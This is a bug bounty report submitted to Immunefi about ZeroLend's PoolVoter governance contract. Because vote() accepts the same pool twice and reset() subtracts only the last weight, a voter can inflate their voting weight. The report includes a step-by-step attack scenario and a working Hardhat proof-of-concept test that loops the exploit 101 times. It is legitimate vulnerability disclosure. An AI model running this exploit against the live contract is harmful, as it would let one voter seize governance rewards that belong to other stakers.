 # Votes manipulation in PoolVoter

Submitted  about 2 months  ago by @ox7a69 (Whitehat)  for  [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost)

----------


Report ID: #29012

Report type: Smart Contract

Has PoC?: Yes

Target: https://github.com/zerolend/governance

Impacts

-   Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Vulnerability Details

**Affected asset**:  [https://github.com/zerolend/governance/blob/main/contracts/voter/PoolVoter.sol](https://github.com/zerolend/governance/blob/main/contracts/voter/PoolVoter.sol)

`PoolVoter`  contract allows to vote for the Gauge for anyone who has voting power by staking in the  `VestedZeroNFT`.

The  `vote()`  function allows to specify pools associated with gauges and their respective weights.

```
function vote(
    address[] calldata _poolVote,
    uint256[] calldata _weights
) external {}

```

However, a crucial flaw exists as the function fails to check for repeated pools in the  `_poolVote`  array. Moreover, it only considers the last weight if the same pool is utilized, as seen here -  [https://github.com/zerolend/governance/blob/main/contracts/voter/PoolVoter.sol#L117](https://github.com/zerolend/governance/blob/main/contracts/voter/PoolVoter.sol#L117).

```
if (_gauge != address(0x0)) {
    _updateFor(_gauge);
    _usedWeight += _poolWeight;
    totalWeight += _poolWeight;
    weights[_pool] += _poolWeight;
    poolVote[_who].push(_pool);
    votes[_who][_pool] = _poolWeight;  // !!!
}

```

When a voter calls the  `reset()`  function to retrieve their voting power back and vote for another gauge, only the last weight is taken into account in case of repeated pool voting.

As a result, the voter recovers the full voting power. Yet  `totalWeight`  and  `weights[_pool]`  are decreased only by the last element from the  `_weights`  array passed to the  `vote()`.

```
uint256 _votes = votes[_who][_pool];

if (_votes > 0) {
    _updateFor(gauges[_pool]);
    totalWeight -= _votes;
    weights[_pool] -= _votes;
    votes[_who][_pool] = 0;
}

```

**Attack scenario**:

1.  The attacker possesses a voting power of  `19.01 ether`.
2.  They invoke  `vote()`  to vote for the same gauge with the following parameters:
    -   _poolVote = [gauge, gauge]
    -   _weights = [19 ether, 1e8]
3.  Further they call  `reset()`, but  `weights[_pool]`  and  `totalWeight`  are only decreased by  `1e8`.
4.  The attacker retains the full  `19.01 ether`  voting power. But  `weights[_pool]`  and  `totalWeight`  are now increased by  `19 ether`.
5.  By repeating steps 2-3 in a loop many times, the attacker can consolidate the majority of votes for their chosen gauge, and all rewards will be distributed to it.
6.  By repeating steps 2-3 for  **100**  times, it's tantamount to having  `1900 ether`  voting power.


## Proof of Concept

To run the Poc put it's code to the  `governance-main/test/PoolVoter.poc.ts`  file, generate random private key, and issue the following command:

```
WALLET_PRIVATE_KEY=0x... NODE_ENV=test npx hardhat test test/PoolVoter.poc.ts --config hardhat.config.ts --network hardhat

```

```
import { expect } from "chai";
import { loadFixture } from "@nomicfoundation/hardhat-network-helpers";
import { SignerWithAddress } from "@nomicfoundation/hardhat-ethers/signers";
import {
  GaugeIncentiveController,
  OmnichainStaking,
  Pool,
  PoolVoter,
  StakingBonus,
  TestnetERC20,
  VestedZeroNFT,
  ZeroLend,
} from "../typechain-types";
import { e18 } from "./fixtures/utils";
import { deployVoters } from "./fixtures/voters";

// Put inside governance-main/test/PoolVoter.poc.ts

// Run as:
// WALLET_PRIVATE_KEY=0x... NODE_ENV=test npx hardhat test test/PoolVoter.poc.ts --config hardhat.config.ts --network hardhat

describe.only("PoolVoter Immunefi Boost", () => {
  let ant: SignerWithAddress;
  let now: number;
  let omniStaking: OmnichainStaking;
  let poolVoter: PoolVoter;
  let reserve: TestnetERC20;
  let stakingBonus: StakingBonus;
  let vest: VestedZeroNFT;
  let pool: Pool;
  let aTokenGauge: GaugeIncentiveController;
  let zero: ZeroLend;

  beforeEach(async () => {
    const deployment = await loadFixture(deployVoters);
    ant = deployment.ant;
    now = Math.floor(Date.now() / 1000);
    omniStaking = deployment.governance.omnichainStaking;
    poolVoter = deployment.poolVoter;
    reserve = deployment.lending.erc20;
    stakingBonus = deployment.governance.stakingBonus;
    vest = deployment.governance.vestedZeroNFT;
    zero = deployment.governance.zero;
    pool = deployment.lending.pool;
    aTokenGauge = deployment.aTokenGauge;

    // deployer should be able to mint a nft for another user
    await vest.mint(
      ant.address,
      e18 * 20n, // 20 ZERO linear vesting
      0, // 0 ZERO upfront
      1000, // linear duration - 1000 seconds
      0, // cliff duration - 0 seconds
      now + 1000, // unlock date
      true, // penalty -> false
      0
    );

    // stake nft on behalf of the ant
    await vest
      .connect(ant)
      ["safeTransferFrom(address,address,uint256)"](
        ant.address,
        stakingBonus.target,
        1
      );

    // there should now be some voting power for the user to play with
    // ant voting power is ~ 19 ether
    expect(await omniStaking.balanceOf(ant.address)).lessThan(e18 * 20n);
  });

  it("ant fraudulently increases his voting power by 100x", async function () {
    expect(await poolVoter.totalWeight()).eq(0);
    for (let i=0; i < 101; i++) {
      // Vote for the same pool 2 times but with different weights
      // 19 ether and 1e8 wei
      await poolVoter.connect(ant).vote(
        [reserve.target, reserve.target],
        [19n*e18, 1e8]
      );
      // Reset() call resets only 1e8 wei votes.
      // However, 19 ether votes remains untouched in totalWeight().
      // ant can has voting power of 19 ether again and again.
      // https://github.com/zerolend/governance/blob/main/contracts/voter/PoolVoter.sol#L67
      // https://github.com/zerolend/governance/blob/main/contracts/voter/PoolVoter.sol#L61-L63
      await poolVoter.connect(ant).reset();
    }
    expect(await poolVoter.totalWeight()).greaterThan(e18 * 19n * 100n);
  });
});

```

----------
